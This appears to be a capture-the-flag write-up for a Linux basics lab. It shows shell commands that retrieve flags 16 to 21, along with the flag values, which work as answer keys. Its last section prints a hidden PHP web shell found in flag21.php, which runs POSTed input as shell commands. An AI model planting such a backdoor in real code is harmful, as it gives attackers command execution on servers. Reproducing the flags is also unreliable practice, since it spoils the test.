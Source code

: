 **Flag 16 lies within another system mount.**

Thank god for autocompletion! :=)

```bash
alice@ip-10-10-123-165:~$ ls -l /media/f/l/a/g/1/6/is/cab4b7cae33c87794d82efa1e7f834e6/test.txt 
-rw-r--r-- 1 root root 28 Feb 18  2019 /media/f/l/a/g/1/6/is/cab4b7cae33c87794d82efa1e7f834e6/test.txt
alice@ip-10-10-123-165:~$ cat /media/f/l/a/g/1/6/is/cab4b7cae33c87794d82efa1e7f834e6/test.txt 
Where does this link to ey?
```

**Login to alice's account using her private key and get flag 17.**

```bash
alice@ip-10-10-123-165:~$ cat flag17 
89d7bce9d0bab49e11e194b54a601362
```

**Find the hidden flag 18**

```bash
alice@ip-10-10-123-165:~$ cat .flag18 
c6522bb26600d30254549b6574d2cef2
```

**Read the 2345th line of the file that contains flag 19.**

```bash
alice@ip-10-10-123-165:~$ sed '2345!d' flag19
490e69bd1bf3fc736cce9ff300653a3b
```
#### Task 4

This set of tasks will require you to understand how certain data is represented on a Linux system. This section may require you to do some independent research.

**Find and retrieve flag 20.**

```bash
alice@ip-10-10-123-165:~$ find / -name flag20 2>/dev/null 
/home/alice/flag20
alice@ip-10-10-123-165:~$ cat flag20
MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg=
alice@ip-10-10-123-165:~$ echo MDJiOWFhYjhhMjk5NzBkYjA4ZWM3N2FlNDI1ZjZlNjg= | base64 -d
02b9aab8a29970db08ec77ae425f6e68
```

**Inspect the flag21.php file. Find the flag.**

```bash
alice@ip-10-10-123-165:~$ find / -name flag21.php 2>/dev/null 
/home/bob/flag21.php
alice@ip-10-10-123-165:~$ cat /home/bob/flag21.php
<?='MoreToThisFileThanYouThink';?>
```
via vim or less we get the flag:

```bash
<?=`$_POST[flag21_g00djob]`?>^M<?='MoreToThisFileThanYouThink';?>
```

